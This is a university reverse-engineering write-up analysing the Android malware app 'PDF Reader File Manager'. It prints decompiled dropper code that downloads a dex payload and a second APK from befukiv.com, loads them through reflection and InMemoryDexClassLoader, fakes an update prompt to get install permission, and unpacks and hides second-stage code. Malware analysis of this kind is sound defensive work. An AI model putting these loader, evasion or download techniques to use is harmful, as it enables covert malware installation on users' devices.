


# Table of Contents
1. [Introduction](#introduction)
2. [Environment and Tools](#environment-and-tools)
3. [Exploration Steps & Findings](#exploration-steps-&-findings)
4. [Conclusions](#conclusions) 

# Introduction

For our reverse engineering course, we've chosen to analyze and reverse engineer the "PDF Reader File Manager" application. This app gained notoriety earlier this year when it was removed from the Play Store. It was developed with the intention of stealing data from Android users, as described in this article [here](https://www.tomsguide.com/computing/malware-adware/these-malicious-android-malware-apps-were-downloaded-150000-times-from-the-play-store-delete-them-right-now).

# Environment and Tools

## Environment
To explore this application, we first focused on using a **secure environment** where we could ensure that the finding **wouldn't harm** the host system, and prevent the **system from tainting** any of the possible findings.

We used Vagrant to set up a [Kali box](https://app.vagrantup.com/kalilinux/boxes/rolling) where we could import the provided raw files for evaluation. Also [REMnux Docker container](https://docs.remnux.org/install-distro/remnux-as-a-container) was used for further forensic exploration.

## Tools

1. **JADX**: Used to decompile DEX files and do some code deofuscation.

2. **VS Code**: Used to analyze decompiled code and do some code deofuscation.

3. **Java compiler**: Some code was run locally to analyze it's runtime behaviour.

4. **strings**: Find strings inside files.

5. **file**: Classify files types based on their content.

6. **apktool**: Decompile apk files.

# Exploration Steps & Findings

## Unpack

Unzipping the file with `7za PDF_Reader_File_Manager.zip` yields the files and directory displayed below.


With a bit of investigation, we found that that XAPK files are essentially a package containing APKs along with other files. To extract these, we can once more utilize `7za` by running it with the XAPK file. Now, we have multiple APKs, a PNG, and a JSON file.


When attempting to execute `apktool d 1.apk` or `jadx -d out 1.apk`, we encounter an error. This issue doesn't arise with any other APK. Upon inspecting the file signatures, we discover that **1.apk is not a valid APK** file.


Indeed, if we try to unzip the file, we can retrieve multiple files.


## Decompiling

We now have a large set of files from the application, however, many of them are not relevant to what we are trying to achieve and can blur our view over the whole of the application.

From all of the APKs found, we focused on _com.tragisoap.fileandpdfmanager.apk_ because it's probably the main application, and if anything malicious is to happen, it should first come from here.

Using `apktool`, we can expose the inner contents of the bundle. To do this we can use the following command.

```bash
$ apktool d -r -s com.tragisoap.fileandpdfmanager.apk
```

From this, the most crucial file is the classes.dex file, from which we can reassemble the Java class files. To accomplish this, we can utilize `jadx` with the following command.

```bash
$ jadx -d out classes.dex
```

## _com.tragisoap.fileandpdfmanager_

We commence our analysis in the _com.tragisoap.fileandpdfmanager.MainActivity_ class, as it serves as the application's starting point. From this class, we observe a few listeners for clicking, which is expected in a mobile application.

To reconstruct the malicious flow, we turn our attention to the _PreviewActivity_ class, which retrieves a variable from _FileManagerService_ that appears to be a counter of some sort. I cannot trace its usage, assuming it is utilized at all, but we can delve into the class it originates from.

The _FileManagerService_ is relatively small, and its behavior is, for lack of a better word, peculiar. It merely attempts to call two methods, and if unsuccessful, it either prints the stack trace of the error or returns to the _MainActivity_ after setting a flag.

```java
public final void a() {
    try {
        Malicious.fetchFilesAndProcess();                   // <--- Suspicious call
        try {
            Malicious.makePdfPage.invoke(null, this);       // <--- Suspicious call
        } catch (IllegalAccessException | InvocationTargetException e) {
            e.printStackTrace();
        }
    } catch (Throwable th) {
        th.printStackTrace();
        Intent intent = new Intent(this, MainActivity.class);
        intent.addFlags(268435456);
        startActivity(intent);
    }
}
```

We inspect the content of the first method called, _fetchFilesAndProcess_, and it has the following structure.

```java
public static void fetchFilesAndProcess() {
    String str;
    Session session = new Session();
    HttpHandler.getRequest getrequest = new HttpHandler.getRequest();
    getrequest.request("https://befukiv.com/muchaspuchas");
    HttpHandler call = getrequest.call();
    HttpHandler.getRequest getrequest2 = new HttpHandler.getRequest();
    getrequest2.request("https://befukiv.com/cortina");
    HttpHandler call2 = getrequest2.call();
    try {
        ParseHttpResponseBody parseHttpResponseBody = new setupTls(session, call).Execute().responseBody;
        byte[] parse = parseHttpResponseBody.parse();
        TwoStrings twoStrings = parseHttpResponseBody.getTwoStrings();
        Charset charset = z4.h.utf8Charset;
        if (twoStrings != null && (str = twoStrings.secondStr) != null) {
            charset = Charset.forName(str);
        }
        muchasStrings.set(new String(parse, charset.name()).split("\\|"));
        byte[] parse2 = new setupTls(session, call2).Execute().responseBody.parse();
        if (fetchAndProcessCompleted.get()) {
            return;
        }
        fw.getClass();
        WriterFile.mapMuchasPuchasToMethods(parse2);
        fetchAndProcessCompleted.set(true);
    } catch (Throwable th) {
        th.printStackTrace();
    }
}
```

Although it was originally obfuscated, we can discern that it's accessing files from the domain _befukiv.com_ to download two files. A DNS search unveils that this domain has two name servers pointing to domains in Russia.

```
...
Registrant Email: http://whois.nicenic.net/?page=whoisform
Admin Email: http://whois.nicenic.net/?page=whoisform&emailtype=admin
Tech Email: http://whois.nicenic.net/?page=whoisform&emailtype=tech
Name Server: NS1.ERANS.RU
Name Server: NS2.ERANS.RU
DNSSEC: unsigned
...
```

At the time of writing this report, the server is accessible, but the resources are not available (it returns a 'not found' response). However, we have access to these files as they were previously downloaded, allowing us to continue our analysis.

### Exploring 'muchaspuchas'

The 'muchaspuchas' file appears to consist of Java method or class names separated by the '|' character. The function responsible for downloading this file splits its contents by the '|' character.

```
dalvik.system.InMemoryDexClassLoader|getClassLoader|loadClass|com.travisscott.pdf.MainLibrary|...
```

This indicates that the authors may have intended to obfuscate application method calls using reflection. To verify this assumption, we opted to analyze the _mapMuchasStringsToMethods_ method and rename its methods.

```java
public static void mapMuchasPuchasToMethods(byte[] bArr) {
    Class inMemoryDexClassLoader = (Class) getClassInstanceByMethodName(Malicious.muchasStrings.get()[0]); // dalvik.system.InMemoryDexClassLoader
    Class cls = (Class) inMemoryDexClassLoader.getMethod(Malicious.muchasStrings.get()[2], String.class).invoke(inMemoryDexClassLoader.getConstructor((Class) getClassInstanceByMethodName(Malicious.muchasStrings.get()[11]), (Class) getClassInstanceByMethodName(Malicious.muchasStrings.get()[12])).newInstance(ByteBuffer.wrap(bArr), Class.class.getMethod(Malicious.muchasStrings.get()[1], new Class[0]).invoke(Malicious.class, new Object[0])), Malicious.muchasStrings.get()[3]);
    Malicious.makePdfPage = getClassMethod(cls, Malicious.muchasStrings.get()[10], Context.class);
    Malicious.readPdfFile = getClassMethod(cls, Malicious.muchasStrings.get()[7], Context.class);
    Malicious.getFirstText = getClassMethod(cls, Malicious.muchasStrings.get()[5], new Class[0]);
    Malicious.getSecondText = getClassMethod(cls, Malicious.muchasStrings.get()[6], new Class[0]);
    Method init = getClassMethod(cls, Malicious.muchasStrings.get()[4], Class.class, Class.class);
    Malicious.launch = getClassMethod(cls, Malicious.muchasStrings.get()[9], Context.class);
    Malicious.getName = getClassMethod(cls, Malicious.muchasStrings.get()[8], Context.class);
    init.invoke(null, PartPreviewActivity.class, MainActivity.class);
}
```

From this, we observe that the function utilizes Java reflection to dynamically assign variables of the Malicious class based on methods/classes names obtained from the _muchaspuchas_ file.

The _mapMuchasStringsToMethods_ method takes as an argument a byte array containing data from the _cortina_ file. It appears to load a class based on the binary file. Consequently, we have decided to proceed by analyzing the _cortina_ file as our next step.

### Exploring 'cortina'

The second file, _cortina_, does not exhibit a structure that we can directly observe. Because of this, we decided to use the `file` tool to discover the format of the file.

```bash
file cortina
```

This returns a result indicating that indeed, _cortina_ is a **Dalvik dex file**. This can be confirmed by examining the file signature and matching it against a known dex file, which confirms the result.

Using `apktool` or JADX, we can then open the cortina.dex file and find that it contains a package called _com.travisscot.pdf_. Recalling what was already processed when the application used reflection to create new methods and reading the _muchaspuchas_ file, we observe that at the end of the _mapMuchasPuchasToMethods_ method, **this new imported package is initialized**. Therefore, we can assume that what these files have done was **expand the existing application with new functionalities previously unknown**.

```java
public static void init(Class<? extends Activity> PartPreviewActivity2, Class<? extends Activity> mainClass2) {
    PartPreviewActivity = PartPreviewActivity2;
    MainActivity = mainClass2;
}
```

The initialization of the _travisscot_ package only involves loading the _PartPreviewActivity_ and the _MainActivity_, most likely to facilitate traversal between the legitimate application and this new package. Once this is completed, we will begin to see the methods defined in this package being called.

Recalling the _FileManagerService_ previously mentioned, we notice that it will invoke the _makePdfPage_ method. This method is defined in the _travisscot_ package.

```java
public static void makePdfPage(Context context) {
    ServiceHandler.handleWork(context);
}
```

It, in turn, calls yet another function, also from the _travisscot_ package, which is shown below.

```java
public static void handleWork(Context context) {
    if (Build.MODEL != null && !Build.MODEL.isEmpty() && Build.MANUFACTURER != null
            && !Build.MANUFACTURER.isEmpty()) {
        TelephonyManager tm = (TelephonyManager) context.getSystemService("phone");
        String country = tm.getNetworkCountryIso().isEmpty() ? "uat" : tm.getNetworkCountryIso();
        if (isManuFacturerGood() && !checkBuildConfig()) {
            if (!country.startsWith("es") && !country.startsWith("sk") && !country.startsWith("cz")
                    && !country.startsWith("ru") && !country.startsWith("hr") && !country.startsWith("si")
                    && !country.startsWith("sl") && !country.startsWith("bg") && !country.startsWith("ee")
                    && !country.startsWith("fi") && !country.startsWith("ie") && !country.startsWith("gb")) {
                Intent i = new Intent(context, MainLibrary.getMainActivity());
                i.addFlags(268435456);
                context.startActivity(i);
                return;
            }
            try {
                MainLibrary.url.set("https://befukiv.com/1.apk");
                Intent i2 = new Intent(context, MainLibrary.getPartPreviewActivity());
                i2.addFlags(268435456);
                context.startActivity(i2);
            } catch (Exception e) {
                e.printStackTrace();
                Intent i3 = new Intent(context, MainLibrary.getMainActivity());
                i3.addFlags(268435456);
                context.startActivity(i3);
            }
        }
    }
}
```

This method will check in which country the current device is operating and halt execution for a selected list of countries. We're uncertain why it does this. It could be due to the domain from which it attempts to download the file, _1.apk_, being blocked in those countries or to avoid legal issues. If the device is not in one of those countries, it stores the URL as an attribute of the _MainActivity_ class.

Following this, it creates a new _Intent_ object and starts the activity of the _PartPreviewActiviy_ class.

```java
@Override // androidx.fragment.app.q, androidx.activity.ComponentActivity, android.app.Activity
public final void onNewIntent(Intent intent) {
    super.onNewIntent(intent);
    Bundle extras = intent.getExtras();
    if ("com.tragisoap.fileexplorerpdfviewer.SESSION_API_PACKAGE_INSTALLED".equals(intent.getAction()) && extras.getInt("android.content.pm.extra.STATUS") == -1) {
        startActivity((Intent) extras.get("android.intent.extra.INTENT"));
    }
}
```

From this, we observe that when a new _Intent_ is created, the application queries the system regarding the status of a permission. With a brief online search, we can reasonably assert that this is a **permission related to the capability of a package to install other packages**. If the application has this permission, it proceeds to start the activity, leading us to the _onCreate_ method.

```java
public final void onCreate(Bundle bundle) {
    String str;
    String str2 = "tura dar";
    super.onCreate(bundle);
    s().t(1);
    getWindow().setStatusBarColor(0);
    setContentView(R.layout.part_preview);
    TextView textView = (TextView) findViewById(R.id.rse345234a);
    try {
        Malicious.launch.invoke(null, this);                                    // <--- travisscot method 
    } catch (IllegalAccessException | InvocationTargetException e) {
        e.printStackTrace();
    }
    Button button = (Button) findViewById(R.id.g234gasaa);
    try {
        str = (String) Malicious.getFirstText.invoke(null, new Object[0]);      // <--- travisscot method
    } catch (IllegalAccessException | InvocationTargetException e7) {
        e7.printStackTrace();
        str = "tura dar";
    }
    textView.setText(str);
    try {
        str2 = (String) Malicious.getSecondText.invoke(null, new Object[0]);    // <--- travisscot method
    } catch (IllegalAccessException | InvocationTargetException e8) {
        e8.printStackTrace();
    }
    button.setText(str2);
    button.setOnClickListener(new q(4, this));
}
```

This is where it starts to directly interact with the user in a suspicious manner. It first calls the _launch_ method.

```java
public static void launch(Context context) {
    downloadRecorderManager.startDownload(context, url.get());
}
```
```java
public class DownloadRecorderManager {
    private static final String FILE_BASE_PATH = "file://";
    public static final String FILE_NAME = "1.apk";
    private static final String MIME_TYPE = "application/vnd.android.package-archive";
    public static final AtomicBoolean downloaded = new AtomicBoolean(false);
    private static int sessionId;

    public void startDownload(Context context, String url) {
        String dest = (context.getExternalFilesDir(Environment.DIRECTORY_DOWNLOADS).toString() + File.pathSeparator) + FILE_NAME;
        Uri.parse(FILE_BASE_PATH + dest);
        File file = new File(dest);
        if (!file.exists()) {
            DownloadManager downloadManager = (DownloadManager) context.getSystemService("download");
            Uri downloadUri = Uri.parse(url);
            DownloadManager.Request request = new DownloadManager.Request(downloadUri);
            request.setMimeType(MIME_TYPE);
            request.setTitle(FILE_NAME);
            request.setDescription(FILE_NAME);
            request.setDestinationInExternalFilesDir(context, Environment.DIRECTORY_DOWNLOADS, FILE_NAME);
            registerDownloadReceiver(context);
            downloadManager.enqueue(request);
            return;
        }
        downloaded.set(true);
        showInstallDialog(context);
    }
    // ... more bellow
}

```

Here, it will initiate the download and installation of an APK package. If we recall from earlier, in the _ServiceHandler.handleWork_ method, a URL was set to download a file called _1.apk_.

We won't display all the code for the download as it is quite straightforward to understand. In essence, what is happening is that the application is now presenting dialog boxes to the user, as expected, prompting the user to grant permission to the application to install packages from external sources, which is a capability of Android that is, by default, disabled.

The sequence of operations between the methods of the class _DownloadRecorderManager_ for downloading the package is as follows.


Returning to the _PartPreviewActiviy.onCreate_ method, the _getFirstText_ and _getSecondText_ functions are probing the application language. Based on this, they print messages to the screen and the button, informing the user that the application needs to be updated and instructing them to press the button now displaying the "UPDATE" text. Subsequently, it sets an event listener on the button and passes the number 4 as an argument. But why? Let's find out!

```java
public final void onClick(View view) {
    EditText editText;
    PasswordTransformationMethod passwordTransformationMethod = null;
    switch (this.f3099f) {
        ...
        case 4:
            PartPreviewActivity partPreviewActivity = (PartPreviewActivity) this.f3100g;
            int i7 = PartPreviewActivity.D;
            partPreviewActivity.getClass();
            try {
                Malicious.readPdfFile.invoke(null, partPreviewActivity);
                return;
            } catch (IllegalAccessException | InvocationTargetException e) {
                e.printStackTrace();
                return;
            }
        ...
    }
    ...
}
```

Sure enough, we can see that it calls _travisscot.readPDFfile_. Essentially, this just checks if the malicious APK is still being installed.

```java
public static void readPDFfile(Context context) {
    if (DownloadRecorderManager.downloaded.get()) {
        downloadRecorderManager.showInstallDialog(context);
    } else {
        Toast.makeText(context, "Please wait until the download is finished", 0).show();
    }
}
```

If we revisit the flowchart previously displayed and follow it again to _travisscot.showNewInstallDialog2_ to display a dialog informing the user if the installation is still ongoing, we notice that it also links what seems to be a download status callback to a pending _Intent_ from the _PartPreviewActivity_ and sets the _Action_ to _"com.tragisoap.fileexplorerpdfviewer.SESSION_API_PACKAGE_INSTALLED"_.

Now, this is where things become complicated. As of the time of writing this report, we are still missing the link that leads to the calling of _PartPreviewActivity.onResume()_. However, we can clearly see that this, in turn, calls the _travisscot.getName()_ method.

```java
public static void getName(Context context) {
    String target = packageName.get();
    if (target != null && !target.isEmpty()) {
        PackageManager pm = context.getPackageManager();
        Intent launch = pm.getLaunchIntentForPackage(target);
        if (launch != null) {
            launch.addFlags(268435456);
            context.startActivity(launch);
        }
    }
}
```

And even without the explicit link, from all that we have gathered up to this point, it is quite evident that the package installed with _1.apk_ is now being launched, but before we cover that, this is a rough flowchart of all that as taken place until now.



## Exploring '1.apk'

1.apk file is a compressed file containing a dex file and other files such as assets. When we try to decompress it gives an error. We decided to decompress file by file to discover where it was failing, we found that there's one file called _AndroidManifest.xml_ that fails extraction.
We analyzed the file with _Binocle_ and we discovered that the file has a high entropy in the beginning and end of the file. Even with the use of _strings_ and hex editors we could not found any relevant information about _AndroidManifest.xml_ other than it appears to request a large set of system permissions.

But _1.apk_ contains a dex file with a lot of code (6.9MB) full of external libraries, including _facebook_, _alipay_, _alibaba_, ... packages.
However, there are some package with obfuscated names which could be the part of the code that is malicious.

<div style="display:flex;justify-content:center">

</div>

Going through the obfuscated package names, we encountered a package named "_juw.khdqwmf.xftkgphgq.fhyu_" containing Chinese characters. After translating these strings using Google Translate, we determined that these characters formed simple Chinese sentences unrelated to the application's purpose. Further exploration revealed that **these strings were translated into package names when passed through a function**. This indicates that the original authors chose to obscure package names using Chinese strings.

These chinese strings were being passed to a function which seemed to do some logic with the strings. We decided to run that function locally in a separate java file and these strings were being converted to package names included in the code. (In this code snippet, some the variables are already the translated values of the chinese string).

```java
public class mapChineseStringToObject {
    public static String jwkyiuu = DeofuscatePackages.chineseStringToPackageName("恊恆恛思恋恅恆恚恙恅恊思恘恙恞恊恆恚恚恄恞思恙恄恘恊恚恆恆", 2);
    public static String vqr = DeofuscatePackages.chineseStringToPackageName("恅恂恁", 2);
    public static String iugke = DeofuscatePackages.chineseStringToPackageName("恚恆恔恘恖", 2);
    public static String rxrjiy = DeofuscatePackages.chineseStringToPackageName("恁恋恁恙恚恊", 2);
    public static String tjp = DeofuscatePackages.chineseStringToPackageName("恇恙恃", 2);
    public static String nxvxchltf = DeofuscatePackages.chineseStringToPackageName("恐恜恞思恉恙恋恊恋恝恅恅恃思恝恋恅恋恐恛恟恇恕", 2);
    public static String heeutduthkyehpklhwox = DeofuscatePackages.chineseStringToPackageName("恃恛恇思恗恔恁恁恀恁恃思恛恔恗恇恔恀恀恅恄思恛恖恖恆恇恗恆恇恛恘恊恖恛恃恘恟恛恄恜恋", 2);
    public static String empty = DeofuscatePackages.chineseStringToPackageName("", 2);
    public static String ehsqpiefmxd = "捨뺑戚\ue684聳踖曡㒕躚\udafdﶃ킎";
}
```

From searching for occurrences of this symbol, we can see that their are being used as arguments to be passed to other methods without ever needing to explicitly write the values they contain. Because of this, the obvious course of action is to translate these values, and every occurrence of "_mapChineseStringToObject.\<variable name\>_" is replace by the corresponding value it holds since they are all string objects. After doing this, this class is no longer relevant and simplifies our exploration.

Going through package by package, we will explore its function and rename its obfuscated symbol to make some sense of it.

### _eeu.wuekite.ptluwwjmt.ypxjt_

Each package hold only one class. This first one is quite straight forward on it's behaviour even though we can't know its purpose as of yet.

```java
public class ObjectHandler {
public static Field attributeFinder(Object instance, String name) throws NoSuchFieldException {
    for (Class clazz = instance.getClass(); clazz != null; clazz = clazz.getSuperclass()) {
        try {
            Field field = clazz.getDeclaredField(name);
            if (!field.isAccessible()) {
                field.setAccessible(true);
            }
            return field;
        } catch (NoSuchFieldException e) {
        }
    }
    throw new NoSuchFieldException("Field " + name + " not found in " + instance.getClass());
}

public static Method methodFinder(Object instance, String name, Class... parameterTypes)
        throws NoSuchMethodException {
    for (Class clazz = instance.getClass(); clazz != null; clazz = clazz.getSuperclass()) {
        try {
            Method method = clazz.getDeclaredMethod(name, parameterTypes);
            if (!method.isAccessible()) {
                method.setAccessible(true);
            }
            return method;
        } catch (NoSuchMethodException e) {
        }
    }
    throw new NoSuchMethodException("Method " + name + " with parameters " + Arrays.asList(parameterTypes)
            + " not found in " + instance.getClass());
}
// ... more similar methods ...
```

We have renamed this class to '_ObjectHandler_'. Its sole focus is to utilize reflection for receiving class objects and handling them in a manner that allows for the discovery of their fields and methods. Moreover, it enables reading and writing fields and invoking class methods, including the possibility of passing arguments. It truly embodies the concept of an 'object handler,' as it empowers the application to manage other objects through reflection.

###  _fje.ymqnpel.dtdenfufv.pusey_

In this package, we find a class that we have renamed '_ObjectProxy_.' This is one of the most interesting classes in _1.apk_. With it, one can simply pass a string to create objects (of type Application in this scenario) and interact with them, only using strings, without ever needing to explicitly create the object ourselves, hence the name 'proxy'.

In this proxy, there three main methods and a fourth auxiliary one, we renamed accordingly to their function.
1. initBuilder
2. threadActiviySwap
3. setContentProvider
4. getCurrentActivityThread

Starting with the simplest, _getCurrentActivityThread_, this simply returns the current thread where the activity is running.

The first one, _initBuilder_, is capable of receiving an application's package name as a string, creating the Application object, and then attaching this new application to the current activity.

```java
private static Application baseApplication;

public static void initBuilder(Application application, String delegateApplicationName, String stubApplicationName) {
    if (TextUtils.isEmpty(delegateApplicationName) || stubApplicationName.equals(delegateApplicationName)) {
        baseApplication = application;
        return;
    }
    try {
        Context contextImpl = application.getBaseContext();
        ClassLoader classLoader = application.getClassLoader();
        Class<?> applicationClass = classLoader.loadClass(delegateApplicationName);
        Application application2 = (Application) applicationClass.newInstance();
        baseApplication = application2;
        ObjectHandler.methodCaller(Application.class, application2, new Object[] { contextImpl }, "attach",
                Context.class);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

The second one, _threadActiviySwap_, is designed to replace the existing application with the new _Application_ within the current thread. By doing so, it effectively switches the active application within the current thread to this new object.

```java
public static void threadActiviySwap(Application application, String stubApplicationName) {
    Application application2 = baseApplication;
    if (application2 == null || stubApplicationName.equals(application2.getClass().getName())) {
        return;
    }
    try {
        Context contextImpl = application.getBaseContext();
        ObjectHandler.methodCaller(contextImpl.getClass(), contextImpl, new Object[] { baseApplication },
                "setOuterContext", Context.class);
        Object mMainThread = ObjectHandler.attributeGetter(contextImpl.getClass(), contextImpl, "mMainThread");
        ObjectHandler.attributeSetter("android.app.ActivityThread", mMainThread, "mInitialApplication",
                baseApplication);
        ArrayList<Application> mAllApplications = (ArrayList) ObjectHandler.classAttributeGetter(
                "android.app.ActivityThread",
                mMainThread, "mAllApplications");
        mAllApplications.add(baseApplication);
        mAllApplications.remove(application);
        Object loadedApk = ObjectHandler.attributeGetter(contextImpl.getClass(), contextImpl, "mPackageInfo");
        ObjectHandler.attributeSetter("android.app.LoadedApk", loadedApk, "mApplication", baseApplication);
        ApplicationInfo applicationInfo = (ApplicationInfo) ObjectHandler.classAttributeGetter(
                "android.app.LoadedApk",
                loadedApk, "mApplicationInfo");
        applicationInfo.className = baseApplication.getClass().getName();
        baseApplication.onCreate();
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

The third method, _setContentProvider_ appears to aims to replace the content provider associated with the given current application with the content provider associated with the new application it created.

```java
public static Application setContentProvider(Application application, String stubApplicationName) {
    Application application2 = baseApplication;
    if (application2 == null || stubApplicationName.equals(application2.getClass().getName())) {
        return application;
    }
    try {
        Context contextImpl = application.getBaseContext();
        Object loadedApk = ObjectHandler.attributeGetter(contextImpl.getClass(), contextImpl, "mPackageInfo");
        ObjectHandler.attributeSetter("android.app.LoadedApk", loadedApk, "mApplication", baseApplication);
        Object activityThread = getCurrentActivityThread();
        Map<Object, Object> mProviderMap = (Map) ObjectHandler.attributeGetter(activityThread.getClass(),
                activityThread,
                "mProviderMap");
        Set<Map.Entry<Object, Object>> entrySet = mProviderMap.entrySet();
        for (Map.Entry<Object, Object> entry : entrySet) {
            ContentProvider contentProvider = (ContentProvider) ObjectHandler.attributeGetter(
                    entry.getValue().getClass(),
                    entry.getValue(), "mLocalProvider");
            if (contentProvider != null) {
                ObjectHandler.attributeSetter("android.content.ContentProvider", contentProvider, "fnjkjldn",
                        baseApplication);
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
    return baseApplication;
}
```

What is interesting here as a clue, it that and a field with name '_fnjkjldn_' is being set with an object of type _ContentProvider_ and value the new created _Application_ object.

### _pht.dgrrsrp.hgdtgssvw_

_AppComponentFactory_ is a factory class that you can extend from and inside, you can return your custom Activity, Application, Service, BroadcastReceiver, and ContentProvider. That is basically what this package with it's _AppComponentFactoryBuilder_ class is, a way of returning custom objects based on what the current application process contains.

### _pls.hqmkfei.nxskrnoon.fwwsp_

The class we renamed as _ContextWrapper_ serves solely as a wrapper for the Context object, intended for use by the malicious application. Its only method, as evidenced, is to append a new asset to the current asset list of the application.

```java
public void assetLoader() {
    try {
        Context context = this.malContext;
        ArrayList<String> patchAssetPath = new ArrayList<>();
        patchAssetPath.add(context.getPackageResourcePath());
        String assetsName = "rxrjiy" + Consts.DOT + "tjp";
        File assets = new File(context.getFilesDir(), assetsName);
        Decompressor.inflater(context.getAssets().open(assetsName), new FileOutputStream(assets));
        patchAssetPath.add(assets.getPath());
        Iterator<String> it = patchAssetPath.iterator();
        while (it.hasNext()) {
            String assetsPath = it.next();
            AssetManagerWrapper.setAssetPathToGivenAssetManager(context.getAssets(), assetsPath);
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

We renamed this method to _assetLoader_, and we can see the path of the new asset being loaded: '_rxrjiy.tjp_'. This file does exist inside the assets directory; we will explore it later.

Another important line to note is the _Decompressor_ class, which we'll also examine later.

But for now, we have sufficient knowledge to understand that all this method does is decompress a hidden file and add its path to the assets list.

#### _rjg.ugogehh.gxwrstviq.khhf_

Renamed to _DexDirHandler_, this class only purpose is to create a directory called '_app\_dex_' and return it as a _File_ object.

### _vie.dwhyiud.voxxndgyo.sooyh_

Renamed to _DexLoader_, the name is self-explanatory, using both the _Decompressor_ and _DexDirHandler_, this class loads dex files, decompresses them, copies them to the new directory _app\_dex_ and then maps the dex contents to new objects.

```java
public void dexFileLoader() {
    try {
        Context context = malContext;
        String[] fileList = context.getAssets().list("iugke");
        File dexDir = DexDirHandler.getDexDir(context);
        for (String dexName : fileList) {
            if (dexName.endsWith(Consts.DOT + "vqr")) {
                File file = new File(dexDir, dexName);
                try {
                    Decompressor.inflater(
                            context.getAssets().open("iugke" + "/" + dexName),
                            new FileOutputStream(file));
                } catch (Exception e) {
                    e.printStackTrace();
                }
                dexFileList.add(file);
            }
        }
        dexToObjects(dexDir);
        FileDeletionWrapper.deletePathFiles(dexDir);
    ...
    }
    ...
}
```

### _vjj.xsflifo.puoiiqxxg.fwrsd_

If you pay close attention to the previous code snippet, you'll notice a class named _FileDeletionWrapper_. This class is within this package, and its sole purpose is to delete all files, directories, and _File_ objects created by other classes, such as those in the previous package, which dynamically generated them.

In essence, it serves as a package to eradicate any traces of potentially malicious files ever existing.

### _wfu.tjudfot.tetdyxomh.vrqdh_

_AssetManagerWrapper_ is yet another wrapper designed solely for reading and writing asset paths in running applications through reflection.

As we have seen before, it is utilized by the _ContextWrapper_ to append the new malicious asset to the asset list of the running application.

### _yuh.xvuijvy.kjmyuiiwm_

With this we reach the final package inside _1.apk_, with a class we named _ApplicationBuider_. This class is the top object between all of the packages, beginning here, new context are created, dex files loaded, activities in threads swapped and content providers set.

```java
public class ApplicationBuider extends Application {
    @Override // android.content.ContextWrapper
    protected void attachBaseContext(Context base) {
        super.attachBaseContext(base);
        new ContextWrapper(base).assetLoader();
        new DexLoader(base).dexFileLoader();
        ObjectProxy.initBuilder(this, "", "yuh.xvuijvy.kjmyuiiwm.jwkyiuu");
    }

    @Override // android.app.Application
    public void onCreate() {
        super.onCreate();
        ObjectProxy.threadActiviySwap(this, "yuh.xvuijvy.kjmyuiiwm.jwkyiuu");
    }

    @Override // android.content.ContextWrapper, android.content.Context
    public Context createPackageContext(String packageName, int flags) throws PackageManager.NameNotFoundException {
        return ObjectProxy.setContentProvider(this, "yuh.xvuijvy.kjmyuiiwm.jwkyiuu");
    }

    @Override // android.content.ContextWrapper, android.content.Context
    public String getPackageName() {
        return "com.zjxyxnvvp.nxvxchltf";
    }
}
```

